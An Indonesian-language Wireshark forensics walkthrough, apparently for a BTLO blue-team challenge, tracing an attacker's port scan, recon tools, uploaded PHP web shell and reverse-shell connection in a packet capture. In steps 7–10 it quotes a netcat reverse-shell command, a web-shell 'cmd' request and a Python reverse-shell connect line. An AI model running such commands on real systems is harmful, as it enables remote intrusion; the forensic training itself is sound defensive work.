







1. IP Penanggung Jawab Port Scan
Langkah di Wireshark:
Buka Statistics > IPv4 Statistics > Addresses atau Conversations (pilih tab IPv4).
Urutkan berdasarkan jumlah paket (Count atau Packets). IP penyerang akan menjadi pengirim (Source) dengan jumlah paket SYN/TCP yang jauh lebih banyak dibandingkan host lainnya.

2. Rentang Port yang Di-scan (Port Range)
Langkah di Wireshark:
Filter trafik dari IP penyerang, misalnya:
ip.src == <IP_PENYERANG> && tcp.flags.syn == 1
Buka Statistics > Conversations > tab TCP, lalu filter berdasarkan IP penyerang.
Lihat kolom Port B (Destination Port) dari urutan terkecil hingga terbesar untuk mengetahui rentang port-nya (misal: 1-1024 atau 20-1000).

3. Tipe Port Scan yang Dilakukan
Langkah di Wireshark:
Amati paket TCP yang dikirim oleh penyerang saat scanning:
Jika hanya mengirim flag SYN tanpa menyelesaikan 3-way handshake (SYN  SYN-ACK  RST), tipenya adalah SYN Stealth Scan / Half-Open Scan (biasanya flag filter: tcp.flags.syn == 1 && tcp.flags.ack == 0).
Jika menyelesaikan handshake hingga penuh, tipenya adalah TCP Connect Scan.
Jika menggunakan flag khusus seperti FIN, NULL, atau XMAS (URG+PSH+FIN), tipenya sesuai nama flag tersebut.

4. Dua Tool Tambahan untuk Rekognisi/Enumerasi
Langkah di Wireshark:
Tool rekognisi web atau layanan biasanya meninggalkan jejak pada User-Agent HTTP atau banner layanan.
Jalankan filter HTTP:
http.request atau http.user_agent
Periksa kolom Info atau detail paket HTTP Request (Hypertext Transfer Protocol  User-Agent). Tool populer yang sering muncul di tantangan BTLO antara lain: Gobuster, Nikto, Dirbuster, Nmap, atau Wfuzz.

5. Nama File PHP Tempat Upload Web Shell
Langkah di Wireshark:
Filter paket unggahan HTTP POST:
http.request.method == "POST"
Cari request dengan Content-Type: multipart/form-data yang mengarah ke form upload (misal: upload.php, index.php, atau edit-profile.php).
Klik kanan paket tersebut > Follow > HTTP Stream. Cek nama file PHP aplikasi target tempat form upload berada.

6. Nama Web Shell yang Diunggah
Langkah di Wireshark:
Pada HTTP Stream hasil pencarian nomor 5 (saat request POST), periksa bagian body payload:
Content-Disposition: form-data; name="..."; filename="nama_webshell.php"
Nama file yang berada di dalam parameter filename adalah nama web shell tersebut (misal: cmd.php, shell.php).

7. Parameter Web Shell untuk Eksekusi Perintah
Langkah di Wireshark:
Filter lalu lintas HTTP GET/POST ke file web shell yang sudah diunggah tadi:
http.request.uri contains "nama_webshell.php"
Lihat struktur URL-nya, contoh: http://target/uploads/shell.php?cmd=whoami.
Nama parameter variabel HTTP setelah tanda ? (misalnya cmd, c, atau exec) adalah jawabannya.

8. Perintah Pertama yang Dieksekusi Penyerang
Langkah di Wireshark:
Menggunakan filter paket ke web shell dari langkah 7:
http.request.uri contains “cmd="
Lihat paket request HTTP paling pertama ke web shell tersebut. Periksa nilai isi parameternya (misal: whoami, id, uname -a, dll).

9. Tipe Shell Connection (Reverse Shell / Bind Shell)
Langkah di Wireshark:
Setelah penyerang mengeksekusi perintah awal via web shell, periksa paket TCP/IP yang menyertainya atau ikuti stream perintah berikutnya di HTTP Stream.
Jika penyerang mengeksekusi perintah seperti nc <IP_PENYERANG> <PORT> -e /bin/bash atau payload bash/python yang membuat victim menghubungi kembali host penyerang, maka tipenya adalah Reverse Shell.
Jika victim membuka port listener baru dan penyerang yang masuk ke port tersebut, tipenya adalah Bind Shell.

10. Port yang Digunakan untuk Shell Connection
Langkah di Wireshark:
Cari perintah pembuatan koneksi shell pada HTTP Stream (dari langkah 8 & 9).
Atau filter lalu lintas TCP non-HTTP antara IP penyerang dan target setelah momen eksekusi web shell:
ip.addr == <IP_PENYERANG> && tcp.port != 80 && tcp.port != 443
Perhatikan port tujuan (destination port) yang digunakan oleh korban saat membuat koneksi ke penyerang (misal: port 4444, 1337, 9001).
Tekan Ctrl + Alt + Shift + H (Follow HTTP Stream) atau Ctrl + H.
Di teks URL request-nya, perhatikan lanjutan skrip Python yang di-URL encode tadi. Cari bagian: s.connect(("10.251.96.4", <PORT_DI_SINI>))

